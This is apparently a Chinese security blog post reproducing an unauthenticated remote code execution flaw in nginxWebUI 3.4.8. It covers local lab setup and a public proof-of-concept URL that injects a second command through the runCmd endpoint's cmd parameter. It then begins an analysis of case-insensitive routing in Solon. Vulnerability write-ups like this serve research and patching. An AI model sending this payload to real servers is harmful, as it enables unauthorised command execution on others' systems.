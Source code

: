 #  nginxWebUI runCmd 未授权远程代码执行   
GoTTY  火线Zone   2023-07-07 17:40  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYNqK6RSBWBZHqxVR8BtfN9ngLBSQ7EX8Kibwfrba2oS92wdD3soW7ADg/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqY2F4tIhG6W4F0FMkcK9FbxgCjZmIjvPDxEibSzrVY5uSKwfEHun5Tkqg/640?wx_fmt=png "")  
  
**01**  
  
**漏洞简介**  
  
  
之前对 nginxWebUI 进行过搭建和审计，但是当时仅仅关注到了后台的一些命令执行漏洞，最近爆出了未授权远程代码执行，再一次进行搭建环境和分析。  
  
  
**02**  
  
**环境搭建**  
  
```
https://github.com/cym1102/nginxWebUI/releases/download/3.4.8/nginxWebUI-3.4.8.jar
java -jar -Dfile.encoding=UTF-8 D:/home/nginxWebUI/nginxWebUI-3.4.8.jar --server.port=8080 --project.home=D:/home/nginxWebUI/
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYSDWoxSwFLic9PicrA4icIibZ7IpG89IK9J5KcicEaKJxtrcTy5I1NgGXRrQ/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYOPMtwxmsPEg5ejAVh7PDh2oOnfHariadZCh1ZNKYDTQgoG7qotiaKSXw/640?wx_fmt=png "")  
  
‍  
  
**03**  
  
**漏洞复现**  
  
  
我们利用网上公开的payload 进行测试  
```
http://127.0.0.1:8080/AdminPage/conf/runCmd?cmd=calc%26%26nginx
```  
  
‍  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYyag9bv6roxp1WGc4ZpzHBRjn7qoMcpURc3UmaI45rFueLMIZ54icHuA/640?wx_fmt=png "")  
  
‍  
  
**04**  
  
**漏洞分析**  
  
  
Solon 路由器对 url 的匹配默认是 “忽略大小写” 的  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaTJ8xicU3Uqq4NfhNWa7PYqYiam7ZAZoV268cDdYrerwtvAKuEiaffalJ8Skepls9IxnZq7FvshS5jDQ/640?wx_fmt=png "")  
  
‍  
  